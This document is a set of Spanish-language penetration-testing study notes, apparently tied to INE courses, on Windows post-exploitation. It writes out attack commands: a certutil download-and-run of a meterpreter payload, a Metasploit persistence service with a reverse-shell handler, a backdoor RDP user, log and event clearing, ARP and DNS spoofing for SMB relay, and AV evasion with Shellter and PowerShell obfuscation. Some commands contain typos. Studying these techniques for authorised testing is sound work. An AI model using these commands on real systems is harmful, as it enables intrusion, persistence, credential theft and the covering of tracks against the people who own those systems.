 
----
- Windows
>https://my.ine.com/CyberSecurity/courses/4350487c/host-network-penetration-testing-post-exploitation
>- Buscar por windows postexplotation y explotation
>https://my.ine.com/CyberSecurity/courses/06040120/host-network-penetration-testing-the-metasploit-framework-msf
>- Buscar por Netbios
>https://my.ine.com/CyberSecurity/courses/c9227d5c/host-network-penetration-testing-network-based-attacks

- Evasion de AV buscar por obfuscation
>https://my.ine.com/CyberSecurity/courses/d95a1882/host-network-penetration-testing-exploitation

# Windows Tips

-----

### Post - Explotation

#### Escalada de Privilegios

- Vemos que se cuentan los procesos, el segundo dice que procesos corren debajo de otros

```powershell
C:\windows> wmic service list breif
C:\windows> tasklist /SVC
```

```powershell
C:\windows> schtasks /query /fo LIST
C:\windows> schtasks /query /fo LIST /v
```

- Escalar privilegios con [jaws](https://github.com/411Hall/JAWS)
```bash
meterpreter> upload jaws.ps1
```
- Coger algo del exploit server desde Victima
```bash
certutil -urlcache -f http://192.168.1.135/meterpreter.exe meterpreter.exe
meterpreter.exe
```

- [Privescheck](https://github.com/itm4n/PrivescCheck) enumera configuraciones débiles para la escalada de privs, se puede hacer únicamente con el **.ps1**

>**Winlogon:** propiedad que maneja el login de los users

- Veo que Privs tengo
```bash
C:> whoami /priv
net user
```
#### Persistencia
1. Le especificamos cada cuanto lanza un intento de sesión, con un listener en metasploit escuchando

```bash
msf6> search persistence
use windows/local/persistence_service
```

2. Configuro listener
```bash
msf6> use /multi/handler
set payload windows/meterpreter/reverse_tcp
```

>**Después de utilizarlo, borrar el .exe creado en la víctima** 

- Persistencia con **RDP**
1. Creamos un User
2. Realizamos escritorio remoto fuera de meterpreter
```bash
meterpreter> run getgui -e -u alexis -p hacker123321
	
	# En el output del comando pone lo que tienes que hacer para borrar
[*] For cleanup use command: run multi_console_command -r /root/.msf4/logs/scripts/getgui/clean_up __ 20220217.1036.rc

xfreerdp /u: alexis /p:hacker123321 /v:10.2.18.93
```

#### Cracking Hashes

>La **SAM** no se puede copiar cuando el S.O está en ejecución
>En SO modernos la SAM está encriptada con una **Siskey**
>Sacamos las credenciales con técnicas qu eactuán en memoria desde el **lsass process**

>Los hashes NTLM son **md4**

>La palabra p4ssw0rd! se hashea con **md4** y luego se llega a ser un **hash NTLM**
#### Clearing Tracks, Logs & Events

1. We have to work in the temp directory siempre (Si no existe, créalo)
2. metasploit nos chiva la ruta d edonde ha creado los artefactos **(Atentos a esto)**
3. En el output pone la ruta para borrar
```bash
# En el output del comando pone lo que tienes que hacer para borrar
[*] For cleanup use command: run multi_console_command -r /root/.msf4/logs/scripts/getgui/clean_up __ 20220217.1036.rc
# si le hacemos un cat a esa ruta
execute -H -f sc.exe -a "stop nlbIMZRc"
execute -H -f sc.exe -a "delete nlbIMZRc"
execute -H -i -f taskkill. exe -a "/f /im MnpUdbMal. exe"
rm "C:\\Users\\ADMINI~1\\AppData\\Local\\Temp\\MnpUdbMa.exe"
```
4. Vamos a la máquina víctima
```bash
resource /root/.msf4/logs/scripts/getgui/clean_up __ 20220217.1036.rc
```
5. Por último limpiamos los eventos
```bash
meterpreter> clearev
```

#### NETBios

>se utiliza para compartición de archivos, opera por los puertos , **137 y 138**

- Escanear
```bash
nbtscan 192.168.0.0/24
nmblookup -A IP
smbclient -L dominio/IP

smbclient //10.10.212.81/carpetaCompartida

smbclient //symfonos.local/helios -U helios
# No pedir passwd y mostrar recursos compartidos
smbclient -L //<IP> -N 
smbclient \\\\\\\\$ip\\\\recurso
```

 - Una vez hayamos pivotado a otra máquina podemos ver los recursos con 

```bash
net view IP
net use C: \\IP\C$
dir C:
```

#### SNMP - simple Network Management Protocol

>Protocolo udp de transporte que opera por el puerto **161**

- Como petarlo:
```bash
nmap -sU -p 161 --script snmp* IP
snmpwalk -v 1 -c public/priivate/secret IP
```

- Con eso tenemos info del sistema como process, muchas cosas más y users del S.O

#### SMB Relay

> Tipo de ataque en el que interceptamos, manipulamos el tráfico SMB y se lo transmitimos al legit server

1. Interceptamos: Cascamos un **MITM**, esto lo conseguimos envenenando las tablas **ARP**, con **DNS poisoning**  o con ataque de **ROGUE SMB**
```bash
echo "IP *.dominio.com" > dns
dnspoof -i eth0 -f dns
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i eth1 -t IPaSpoofear Gateway
```
1. Ahí  es cuando el cliente realiza una acción contra el server legítimo y utiliza su hash para autenticarse, ahí lo pillamos nosotros

#### AV Obfuscation

- **Sistema de detección basado en firmas**
>Estos sistemas tienen grandes BD donde almacenan hashes, si estos hasesh coinciden con el de nuestro malware, se cargará nuestro bicho


- **Sistema de detección basado en Heurística**
>Puede ser descubierto por propiedades dentro del code

- **Sistema de detección basado en comportamiento**
>Puede ser descubierto por comportamiento del malware, cuando se ejecuta


##### Evasiones en disco
1. **Obfusación:** reorganiza el código para que sea más difícil analizarlo
2. **Encoding**
3. **PAcking:** convertimos el mismo binario con un tamaño más pequeño
4. **Crypters:** encriptamos el código y lo desencriptamos en memoria, la función de desencriptación se almacena en stub

##### Evasiones en Memoria
1. Se centra en la manipulación de la memoria y no escribe archivos en el disco.
2. Inyecta el payload en un proceso aprovechando varias API de Windows.
3. El payload se ejecuta en memoria en un subproceso independiente.
##### Shelter

>**Shelter:** Inyecta tremendo shellcode en los ejecutables legítimos y no tan legits (PE), tratando de que pasen desapercibidos para los AV

- Instalaremos wine para poder utilizar ejecutables de iwndow sen sistema unix

```bash
# Habilitamos los paquetes x32
sudo dpkg --add-architecture i386
sudo apt-get install wine32
```
- Ejecutamos
```bash
cd /usr/share/windows-resources/shellter
wine shelter.exe
```

##### Obfuscating PowerShell code

>Github de la [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) 

- Utilizaremos **PS**  en linux
```bash
sudo apt intsall powershell -y
pwsh
Import-Moudle invoke-obfuscation.ps1
Invoke-Obfuscation
SET SCRIPTPATH ruta.ps1
```

- El .ps1 va  a llevar una reverse shell 